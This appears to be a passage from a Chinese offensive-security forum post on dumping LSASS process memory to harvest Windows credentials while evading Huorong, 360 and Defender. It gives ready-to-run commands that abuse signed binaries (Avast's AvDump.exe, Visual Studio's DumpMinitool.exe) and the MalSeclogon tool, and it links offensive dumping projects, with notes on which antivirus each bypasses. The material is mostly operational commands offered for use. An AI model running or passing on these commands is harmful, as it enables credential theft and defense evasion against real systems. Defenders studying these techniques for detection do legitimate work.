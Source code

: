 AvDump.exe
----------

Bypass火绒

`AvDump.exe`是`Avast`杀毒软件中自带的一个程序，可用于dump lsass

默认路径

```php
C:\Program Files\Avast Software\Avast
```

![image-20220420115020164](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-01714d14f014da74870c2e7790115d8180183296.png)

它带有Avast杀软数字签名

![image-20220420195009289](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f182d0488bb3da8f4ffd011d4625af32340c6ed7.png)

```php
AvDump.exe --pid 1060 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```

![image-20220420115459240](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-061802f98d157cad6cd9c53212b0a13eefad5e6c.png)

DumpMinitool.exe
----------------

Bypass，360、火绒、defender

这个是在推特上大哥分享的LOLBIN

路径

```php
C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions
```

![image-20220420194913179](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6117afb354ac608aabada64fb098e7e8247f1030.png)

```php
DumpMinitool.x86.exe --file 1.txt --processId 1060 --dumpType Full
```

0x09 项目推荐
=========

<https://github.com/snovvcrash/MirrorDump>

<https://github.com/snovvcrash/MiniDump>

<https://github.com/deepinstinct/LsassSilentProcessExit>

国外：<https://github.com/b4rtik/ATPMiniDump>

[https://github.com/post-cyberlabs/Offensive\_tools/tree/main/PostDump](https://github.com/post-cyberlabs/Offensive_tools/tree/main/PostDump)

Bypass360和火绒、defender不行

<https://github.com/Redamancy404/MalSeclogon>

使用命令：`Malseclogon.exe -p [PID] -d 1 -o C:\Users\1255\Desktop\test\1.dmp`

需要管理员权限，Bypass，360、火绒、defender